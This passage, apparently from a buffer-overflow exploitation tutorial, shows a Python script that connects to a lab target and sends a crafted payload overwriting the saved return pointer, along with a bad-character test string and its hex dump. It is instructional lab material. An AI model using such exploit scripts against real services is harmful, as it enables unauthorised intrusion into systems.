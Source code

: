 \newpage

Our Python script, with the generation and saving of a test string, becomes:

```{.python .numberLines}
#!/usr/bin/env python3
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

badchar_test = b""        # start with an empty string
badchars = [0x00, 0x0A]   # we've reasoned that these are definitely bad

# generate the string
for i in range(0, 256):         # range(0x00, 0xFF) only returns up to 0xFE
  if i not in badchars:         # skip the badchars
    badchar_test += bytes([i])  # append each non-badchar char to the string

# open a file for writing ("w") the string as binary ("b") data
with open("badchar_test.bin", "wb") as f:
  f.write(badchar_test)

buf_totlen = 1024
offset_srp = 146

buf = b""
buf += b"A"*(offset_srp - len(buf))    # padding
buf += b"BBBB"                         # SRP overwrite
buf += badchar_test                    # ESP points here
buf += b"D"*(buf_totlen - len(buf))    # trailing padding
buf += b"\n"

s.send(buf)
```

\newpage

Running this:

```
% ./exploit.py
```

The script will spit out a binary file named `badchar_test.bin`. This file
contains every byte from `\x00` to `\xFF` except for `\x00` and `\x0A`.

`xxd`, a command-line hex viewer, is great for viewing such a binary file:

```
% xxd badchar_test.bin
00000000: 0102 0304 0506 0708 090b 0c0d 0e0f 1011  ................
00000010: 1213 1415 1617 1819 1a1b 1c1d 1e1f 2021  .............. !
00000020: 2223 2425 2627 2829 2a2b 2c2d 2e2f 3031  "#$%&'()*+,-./01
00000030: 3233 3435 3637 3839 3a3b 3c3d 3e3f 4041  23456789:;<=>?@A
00000040: 4243 4445 4647 4849 4a4b 4c4d 4e4f 5051  BCDEFGHIJKLMNOPQ
00000050: 5253 5455 5657 5859 5a5b 5c5d 5e5f 6061  RSTUVWXYZ[\]^_`a
00000060: 6263 6465 6667 6869 6a6b 6c6d 6e6f 7071  bcdefghijklmnopq
00000070: 7273 7475 7677 7879 7a7b 7c7d 7e7f 8081  rstuvwxyz{|}~...
00000080: 8283 8485 8687 8889 8a8b 8c8d 8e8f 9091  ................
00000090: 9293 9495 9697 9899 9a9b 9c9d 9e9f a0a1  ................
000000a0: a2a3 a4a5 a6a7 a8a9 aaab acad aeaf b0b1  ................
000000b0: b2b3 b4b5 b6b7 b8b9 babb bcbd bebf c0c1  ................
000000c0: c2c3 c4c5 c6c7 c8c9 cacb cccd cecf d0d1  ................
000000d0: d2d3 d4d5 d6d7 d8d9 dadb dcdd dedf e0e1  ................
```